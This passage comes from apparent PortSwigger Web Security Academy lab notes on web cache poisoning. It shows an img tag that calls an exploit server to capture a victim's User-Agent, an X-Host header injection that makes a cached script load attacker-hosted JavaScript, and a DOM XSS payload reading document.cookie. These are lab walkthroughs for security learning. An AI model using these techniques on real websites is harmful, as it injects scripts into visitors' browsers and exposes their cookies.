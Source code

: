     <img src="https://exploit-0aa80009033bcb19ded7c4c001450012.exploit-server.net/exploit">

Wait for the victim to see this comment, visit the Access log page of the exploit server and observe the victim's `User-Agent` is `Chrome/231561`.
Next, use `Param Miner` with `Guess Header` and found out the unknown header `X-Host`. It's value is then reflected in the:

    <script type="text/javascript" src="//0a2e00a10315cb43defcc59e0044008b.h1-web-security-academy.net/resources/js/tracking.js"></script>

To make it point to our server, send a request with this header:

    X-Host: exploit-0aa80009033bcb19ded7c4c001450012.exploit-server.net/exploit#

The response's script now successfully point to our exploit server:

    <script type="text/javascript" src="//exploit-0aa80009033bcb19ded7c4c001450012.exploit-server.net/exploit#/resources/js/tracking.js"></script>

Resend that request with the `User-Agent` set to the victim's until the response is cached:

    User-Agent: Chrome/231561

Now when the victim visits the home page, he is served with a script which `src` is our exploit server.

### LAB: Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria
Crawl through the source code and found `/resources/js/geolocate.js`:

    function initGeoLocate(jsonUrl)
    {
        fetch(jsonUrl)
            .then(r => r.json())
            .then(j => {
                let geoLocateContent = document.getElementById('shipping-info');

                let img = document.createElement("img");
                img.setAttribute("src", "/resources/images/localShipping.svg");
                geoLocateContent.appendChild(img)

                let div = document.createElement("div");
                div.innerHTML = 'Free shipping to ' + j.country;
                geoLocateContent.appendChild(div)
            });
    }

The web page is taking the JSON object in this script and pass it to to `initGeoLocate`:

    <script>
        data = {"host":"0a5f00ab03e59cb38472281600280027.web-security-academy.net","path":"/"}
    </script>

Notice that, if we can manipulate the `data.host` we can successfully inject to the DOM usign this JSON object: 

    {
        "country": "<img src=1 onerror=alert(document.cookie)>"
    }
